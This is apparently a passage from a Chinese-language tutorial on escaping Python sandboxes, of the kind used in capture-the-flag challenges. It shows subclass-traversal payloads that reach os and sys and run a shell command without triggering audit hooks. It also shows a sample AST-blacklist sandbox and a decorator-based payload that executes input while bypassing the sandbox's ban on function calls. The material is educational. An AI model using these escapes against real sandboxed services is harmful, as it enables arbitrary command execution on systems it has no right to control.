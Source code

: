 
### 其他不触发 hook 的方式
使用 `__loader__.load_module('os')` 是为了获取 os 模块, 其实在 no builtins 利用手法中, 无需导入也可以获取对应模块. 例如:

```py
# 获取 sys
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"]

# 获取 os
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "'_sitebuiltins." in str(x) and not "_Helper" in str(x) ][0]["sys"].modules["os"]

# 其他的 payload 也都不会触发
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if x.__name__=="_wrap_close"][0]["system"]("ls")
```

## 绕过 AST 沙箱
AST 沙箱会将用户的输入转化为操作码,此时字符串层面的变换基本上没用了,一般情况下考虑绕过 AST 黑名单. 例如下面的沙箱禁止了 ast.Import|ast.ImportFrom|ast.Call 这三类操作, 这样一来就无法导入模块和执行函数.

```py
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
下面的几种利用方式来源于 hacktricks
### without call
如果基于 AST 的沙箱限制了执行函数,那么就需要找到一种不需要执行函数的方式执行系统命令.
#### 装饰器
利用 payload 如下:
```py
@exec
@input
class X:
    pass
```